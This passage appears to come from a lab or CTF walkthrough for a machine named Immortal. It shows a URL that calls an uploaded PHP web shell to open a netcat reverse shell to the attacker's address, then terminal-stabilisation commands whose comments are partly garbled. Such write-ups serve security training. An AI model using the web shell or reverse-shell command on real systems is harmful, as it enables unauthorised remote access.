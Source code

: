![VMBreaker](/assets/images/hacking/2024/03/15.png)
Enter the site:
{: .text-justify}
```html
http://172.16.1.161/longlife17/chat/shell.phtml?cmd=nc+-c+bash+172.16.1.89+12345
```
### 05. screen
![VMBreaker](/assets/images/hacking/2024/03/16.png)
### 06. screen
![VMBreaker](/assets/images/hacking/2024/03/17.png)
```bash
# columns:a@Immortal:/var/www/html/longlife17/chat$ # 6. Adjust terminal rows and co
stty rows 44 columns 110
# vironment:mmortal:/var/www/html/longlife17/chat$ # 7. Source the bashrc file to get a fully functional bash env
source /etc/skel/.bashrc
# www-data@Immortal:/var/www/html/longlife17/chat$ # 8. Export SHELL environment variable as bash:
export SHELL=bash
```